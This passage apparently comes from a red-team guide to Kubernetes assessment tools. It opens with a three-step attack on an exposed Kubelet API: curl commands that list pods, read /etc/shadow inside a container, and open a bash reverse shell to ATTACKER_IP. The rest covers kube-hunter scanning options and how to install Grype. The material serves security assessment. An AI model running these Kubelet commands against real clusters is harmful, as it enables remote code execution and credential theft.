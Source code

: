 ```bash
# 1. Confirm Kubelet access
curl -k https://NODE_IP:10250/pods

# 2. Execute commands in a pod
curl -k -XPOST "https://NODE_IP:10250/run/NAMESPACE/POD/CONTAINER" \
  -d "cmd=cat /etc/shadow"

# 3. Create a reverse shell
curl -k -XPOST "https://NODE_IP:10250/run/NAMESPACE/POD/CONTAINER" \
  -d "cmd=bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'"
```

### Advanced Hunting Techniques

For more comprehensive assessments, customize Kube-Hunter's behavior:

```bash
# Comprehensive scanning with all options
kube-hunter --cidr 10.0.0.0/24 --active --statistics --log info

# Focus on specific vulnerability types
kube-hunter --remote 10.0.0.1 --include dashboard,kubelet,etcd

# Exclude certain vulnerability checks
kube-hunter --remote 10.0.0.1 --exclude cve-2018-1002105,cve-2019-9946
```

## Container Vulnerability Assessment Tools

Understanding vulnerability scanning tools helps red teams identify potential entry points into containerized environments.

### Grype: Container Vulnerability Scanning

Grype, developed by Anchore, specializes in detecting vulnerabilities in container images and filesystems.

#### Installation

```bash
# Using curl
curl -sSfL https://raw.githubusercontent.com/anchore/grype/main/install.sh | sh -s -- -b /usr/local/bin

# Using Docker
docker pull anchore/grype

# From source
git clone https://github.com/anchore/grype.git
cd grype
make build
```
